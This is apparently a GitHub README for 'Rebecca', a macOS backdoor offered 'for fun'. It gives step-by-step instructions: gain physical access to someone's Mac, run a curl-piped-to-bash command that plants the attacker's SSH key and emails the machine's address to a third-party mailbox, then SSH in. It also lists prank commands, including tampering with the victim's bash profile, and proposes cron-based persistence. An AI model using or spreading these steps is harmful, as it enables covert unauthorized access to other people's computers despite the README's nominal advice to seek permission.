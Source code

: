 # Rebecca
Rebecca gives you access to another user's mac PC. Running this script injects ssh key into the victim's mac PC thus giving remote access.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's mac PC and email relevant information for ssh to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's mac PC.

## Why Rebecca was created?
Rebecca was created for fun :smirk:.

With ssh access, one can make a mac talk to the user, launch random browsers, sleep the mac PC, etc. Some interesting commands to play with:
```
say -v veena hello world
open "http://google.com"
pmset sleepnow
echo "alias ls='say -v veena hello, why are you touching me'" >> ~/.bash_profile
```

## How to use Rebecca?
Before using Rebecca, there are a few configurations to make:
1. you will want to clone this to your own github respository
2. you will want to create a rsa key pair if you don't have one
3. change the rsa public key in rebecca.sh to your own rsa public key (add your own identifier at the end)
4. change the third party mailbox in rebecca.sh to your own mailbox
5. change identifier in purge.sh to your identifier otherwise purge.sh will not work

Steps to gain access:
1. get physical access of a person's mac PC
2. open terminal and run the bash command that links to rebecca.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`
3. turn on remote login sharing
4. check mailbox for hostname and ip address
5. ssh in with the hostname and ip address, e.g.
* `ssh -i private_rsa_key_file hostname@192.168.123.123`

To remove from user's mac PC:
1. open terminal and run the bash command that links to purge.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

## Possible improvements
Rebecca relies on the ip address of the user's PC. In the event where the user is assigned another ip address, it will be impossible to ssh in. A solution to this problem would be to set up a scheduled job on the user's PC to send out its ip address in an email (crontabs?). There is currently no intention to further improve rebecca as this is only an experimental project.

## Credits
Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops :grin:.
